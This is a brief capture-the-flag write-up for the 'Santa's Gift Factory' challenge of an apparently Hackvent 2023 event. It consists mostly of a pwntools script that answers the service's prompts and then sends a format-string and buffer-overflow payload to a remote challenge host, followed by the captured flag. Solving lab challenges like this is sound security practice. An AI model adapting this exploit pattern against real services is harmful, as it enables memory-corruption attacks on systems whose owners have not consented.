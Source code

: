 # [HV23.16] Santa's Gift Factory

I've deleted all my writeups on accident on Day 20 and I will not go through this challenge a second time, I am sorry. (Not really, I hated this challenge)

```py
from pwn import *

rem = remote('152.96.15.5', 1337)
rem.recvuntil(b"? \x1b[?25h")
rem.sendline(b"y")
rem.recvuntil(b"\n\n")
presents = rem.recvuntil(b"\n\n")

red = presents.count(b"red")
yellow = presents.count(b"yellow")
blue = presents.count(b"blue")

rem.recvuntil(b"\n > ")
rem.sendline(f"{red}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{yellow}".encode())
rem.recvuntil(b"\n > ")
rem.sendline(f"{blue}".encode())
rem.recvuntil(b"name?\n > \x1b[?25h")
rem.sendline(b"A")
rem.recvuntil(b"else?\n > \x1b[?25h")
rem.sendline(b"%25$s" + b"A"*131 + b"\x84")

print(rem.recvall())
```

Flag: `HV23{roses_are_red_violets_are_blue_the_bufferoverfl0w_is_0n_line_32}`